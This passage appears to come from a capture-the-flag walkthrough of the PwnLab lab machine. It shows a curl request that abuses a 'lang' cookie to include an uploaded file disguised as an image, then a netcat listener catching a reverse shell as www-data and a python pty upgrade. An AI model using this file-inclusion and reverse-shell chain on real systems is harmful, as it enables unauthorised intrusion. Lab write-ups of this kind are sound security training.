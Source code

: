 This appears to be a harmless image, but isn't.

![](/assets/images/pwnlab/screenshot-6.png)

We set up a netcat listener and execute the following curl request.

```console
root@kali:~$ curl --cookie 'lang=../upload/f659f52b072e3f886046f726803ef421.png' 192.168.179.176 --output out
```

We have a shell as user www-data and upgrade it to a TTY shell.

```console
root@kali:~$ nc -vlnp 443                
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.176] 36455
Linux pwnlab 3.16.0-4-686-pae #1 SMP Debian 3.16.7-ckt20-1+deb8u4 (2016-02-29) i686 GNU/Linux
 10:14:42 up 56 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty; pty.spawn('/bin/bash')"
www-data@pwnlab:/$
```
